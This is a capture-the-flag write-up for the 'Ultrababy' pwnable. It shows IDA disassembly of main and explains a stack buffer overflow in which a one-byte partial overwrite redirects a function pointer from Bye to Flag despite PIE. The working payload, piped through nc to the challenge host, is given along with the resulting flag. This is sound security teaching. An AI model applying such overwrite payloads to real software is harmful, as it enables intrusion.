 # Ultrababy - Pwning 25

```
Reach the flag function!

nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 55000

Attachment
pwn25_5ae6e58885e7cd75.zip 
```

The binary has three functions, `main`, `Bye`, and `Flag`. Here's what IDA has to say about `main`:

```
; Attributes: bp-based frame

; int __cdecl main(int argc, const char **argv, const char **envp)
public main
main proc near

buf= byte ptr -20h
fp= qword ptr -8

push    rbp
mov     rbp, rsp
sub     rsp, 20h
lea     rax, Bye
mov     [rbp+fp], rax
mov     rax, cs:stdin@@GLIBC_2_2_5
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    setvbuf
mov     rax, cs:__bss_start
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    setvbuf
lea     rdi, aWelcomeGiveMeY ; "Welcome, give me you best shot"
call    puts
mov     rax, cs:__bss_start
mov     rdi, rax        ; stream
call    fflush
lea     rax, [rbp+buf]
mov     edx, 19h        ; nbytes
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
call    read
mov     rax, cs:stdin@@GLIBC_2_2_5
mov     rdi, rax        ; stream
call    fflush
mov     rdx, [rbp+fp]
mov     eax, 0
call    rdx
mov     eax, 0
leave
retn
main endp

```

`buf` lives on the stack 0x20 bytes below the frame pointer, and a function pointer (I named it `fp`) lives `0x8` bytes below the frame pointer. We can read `0x19` bytes from standard input into the buffer, so we can overwrite the function pointer before it's dereferenced and called. It's supposed to point to `Bye`, but we want it to point to `Flag`.

The binary is compiled w/ PIE, so we don't know a priori what the address of `Flag` is. However, x86 is little-endian, which means if we do a short overwrite, we can modify just the lower-order bytes of the pointer, leaving the higher-order bytes intact. This is just what we need, since `Flag` and `Bye` are in the same page, but we don't know where that page is.

```
$ echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\xf3" | nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 55000
Welcome, give me you best shot
EKO{Welcome_to_pwning_challs_2k16}
```

(`0xf3` is the least significant byte in the page offset of `Flag`.)
